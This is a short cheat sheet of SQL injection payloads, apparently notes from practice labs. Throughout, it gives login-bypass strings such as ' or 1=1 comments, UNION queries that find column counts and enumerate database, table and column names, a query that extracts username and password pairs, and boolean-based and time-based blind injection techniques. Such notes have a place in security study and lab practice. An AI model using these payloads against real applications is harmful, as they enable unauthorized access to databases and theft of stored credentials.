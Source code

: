 # Basic SQLi:
```admin' or 1=1; -- ```

```admin'; -- ```

```ad'||'min``` used for concatenation when having restrictions. Also in conjunction with a true statement: ```a' IS NOT 'b```

```admin'/* ``` when we cannot use '--'

Other variants: ```adm'||'in'/* ```

# Retrieve DB info (In-Band SQLi, Error-based and union SQLi):
```0 UNION SELECT 1``` ``` 0 UNION SELECT 1,2``` ```0 UNION SELECT 1,2,3``` etc until you no longer get an error => this would get the number of columns

```0 UNION SELECT 1,2,database()``` name of the database

```admin123' UNION SELECT 1,2,3 where database() like 's%';--``` for Boolean-based Blind SQLi (s%, sq%, sql%, etc until we get the entire name)

```0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'``` get name of all tables in database

```0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'``` get column names in table

``` admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%';--``` get column names for Boolean-based Blind SQLi (after each name is found we have to remove it from the query: ```admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%' and COLUMN_NAME !='id';```)

```0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users``` get data from table

```0 UNION ALL SELECT notes,null,null,null,null FROM people WHERE id = 1``` get specific column for specific id from specific table

# Time-based Blind SQLi:
```admin123' UNION SELECT SLEEP(5);--```

also try with adding more columns, maybe it works: ```admin123' UNION SELECT SLEEP(5),2;--```

